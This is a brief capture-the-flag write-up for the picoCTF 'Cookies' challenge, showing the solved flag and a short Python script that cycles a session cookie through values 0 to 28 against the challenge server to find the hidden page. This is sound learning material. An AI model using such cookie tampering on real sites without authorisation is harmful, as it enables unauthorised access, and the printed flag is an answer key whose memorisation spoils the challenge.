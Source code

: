 # Cookies

**FLAG** - picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

Owing to the name of the challenge, I first check the cookies!

![Alt text](https://github.com/user-attachments/assets/7272a2bc-4be7-4123-8d54-f0e74e4138b2)

I notice that the cookie value is -1, I decide to tinker around with it, by changing it to 0 and refreshing

![image](https://github.com/user-attachments/assets/60dc7993-33cf-42c5-bd85-bcb7a65047de)

with some trial and error I figure out the maximum possible value of the cookie is 28, knowing that I write the following python script

```python
import requests
f=open("answer.txt","a")
for i in range(29):
    cookie="name="+str(i)
    request=requests.get("http://mercury.picoctf.net:29649/check",headers={"Cookie":cookie})
    f.write(request.text)
    
f.close()
```

this wrote all the html source code into a answer.txt file, that I later used `Ctrl+F` to find the flag from

## References:

- https://stackoverflow.com/questions/6260457/using-headers-with-the-python-requests-librarys-get-method
- https://stackoverflow.com/questions/7164679/how-to-send-cookies-in-a-post-request-with-the-python-requests-library
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cookie
